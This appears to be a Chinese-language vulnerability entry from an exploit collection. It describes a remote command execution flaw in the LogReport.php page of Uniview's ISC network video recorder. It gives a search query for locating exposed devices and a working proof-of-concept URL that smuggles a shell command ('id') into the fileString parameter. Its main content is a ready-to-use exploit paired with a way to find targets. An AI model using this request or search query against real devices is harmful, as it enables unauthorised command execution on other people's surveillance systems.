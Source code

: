 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

# 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
浙江宇视科技 网络视频录像机 ISC
```

## 网络测绘

```
app="uniview-ISC"
```

## 漏洞复现

登录页面

![image-20220519183432893](/images/202205191834953.png)

验证POC

```
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![image-20220519183528302](/images/202205191835400.png)

